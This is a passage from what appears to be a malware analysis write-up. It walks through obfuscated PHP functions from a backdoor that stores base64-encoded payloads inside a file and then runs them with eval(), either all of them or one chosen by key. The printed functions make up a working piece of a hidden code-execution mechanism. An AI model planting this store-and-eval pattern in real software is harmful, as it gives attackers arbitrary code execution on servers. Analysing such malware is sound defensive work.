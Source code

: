 The second function does a similar job, in that it encodes serialized data, and then stores it at the correct offset. The majority of the functions are now exposed to us, and we can see the basic behaviour of the malware. At this point, there are 3 main functions left to analyse. These are:

```php

    function bushzx($rpznkysa, $zmhagl)
    {
        $hzrhdgnprrmsrj = ymjxpja();

        $hzrhdgnprrmsrj[$rpznkysa] = ytkpmfs($zmhagl);

        ifqhsss($hzrhdgnprrmsrj);
    }

    function uzzylcyq($rpznkysa)
    {
        $hzrhdgnprrmsrj = ymjxpja();

        unset($hzrhdgnprrmsrj[$rpznkysa]);

        ifqhsss($hzrhdgnprrmsrj);
    }

    function wzuxic($rpznkysa=NULL)
    {
        foreach (ymjxpja() as $khaklrbh=>$unqrza)
        {
            if ($rpznkysa)
            {
                if (strcmp($rpznkysa, $khaklrbh) == 0)
                {
                    eval($unqrza);
                    break;
                }
            }
            else
            {
                eval($unqrza);
            }
        }
    }

```

The first 2 functions appear to be a pair again, as they both end by calling the function which encodes and stores data in the file. They also both start by calling the function which gets the data out of the file too. The second function removes the data (using PHP's built in unset command), the other uses a function that I had skipped over. Looking back on that function, I made the assumption this was an encoding or decoding function, and the string array within it looked very familiar to me. It is the same character string used in base64 encoding. While I did decode this function (ytkpmfs) and found it to be base64 decoding, I haven't included the decoding here, and left as an exercise for the reader.
